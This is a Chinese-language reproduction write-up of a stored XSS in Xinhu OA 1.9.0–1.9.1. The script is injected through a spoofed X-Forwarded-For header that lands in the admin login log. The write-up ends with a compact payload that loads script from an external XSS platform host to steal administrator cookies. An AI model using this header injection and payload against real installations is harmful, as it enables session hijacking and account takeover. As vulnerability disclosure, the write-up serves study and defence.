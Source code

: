 信呼oa 1.9.0-1.9.1 储存型xss
============================

一、漏洞简介
------------

二、漏洞影响
------------

信呼oa 1.9.0-1.9.1

三、复现过程
------------

首先搭建好之后跳转到一个登录页面

![1.png](./.resource/信呼oa1.9.0-1.9.1储存型xss/media/rId24.png)输入刚开始安装时设置的管理员**usname paword**然后点击登陆，然后抓包查看传参，然后去寻找登陆模块的源代码，根据传参的追踪，我们很快就能追踪到这个文件`webmain\model\loginMode.php`

然后我在这个登陆文件`loginMode.php`的第209行到215行发现了一些东西

![2.png](./.resource/信呼oa1.9.0-1.9.1储存型xss/media/rId25.png)

这里出现了一个`addlogs`函数，看名字应该是添加日志，在`logModel.php`中发现了他的定义

![3.png](./.resource/信呼oa1.9.0-1.9.1储存型xss/media/rId26.png)

这里是获取了信息然后给数组赋值，然后insert函数调用 在`mysql.php`

![4.png](./.resource/信呼oa1.9.0-1.9.1储存型xss/media/rId27.png)

很明显这里是插入语句的模板，这里就应该是登陆失败后，日志会记录下来前面看的到那些数组赋值的信息。

通过查看Mysql日志发现，登录失败他会记录我们的Ip，那么就简单了，我们是否可以尝试使用`X-Forwarded-For`来改变他的ip，然后我们使用

`X-Forwarded-For:127.0.0.1`X-F-F成功更换后台Ip

![5.png](./.resource/信呼oa1.9.0-1.9.1储存型xss/media/rId28.png)打个xss

![6.png](./.resource/信呼oa1.9.0-1.9.1储存型xss/media/rId29.png)后台成功弹框

![7.png](./.resource/信呼oa1.9.0-1.9.1储存型xss/media/rId30.png)

打开XSS平台

![8.png](./.resource/信呼oa1.9.0-1.9.1储存型xss/media/rId31.png)打一遍发现没用，获取不到cookie，F12看看咋回事

![9.png](./.resource/信呼oa1.9.0-1.9.1储存型xss/media/rId32.png)果然是xss代码出了问题构造xss代码，极限代码\--\>多加//防止被转入之前\--\>`<sCRiPt/SrC=////xs.sb/Jwdu>`![10.png](./.resource/信呼oa1.9.0-1.9.1储存型xss/media/rId33.png)

参考链接
--------

> https://xz.aliyun.com/t/7887
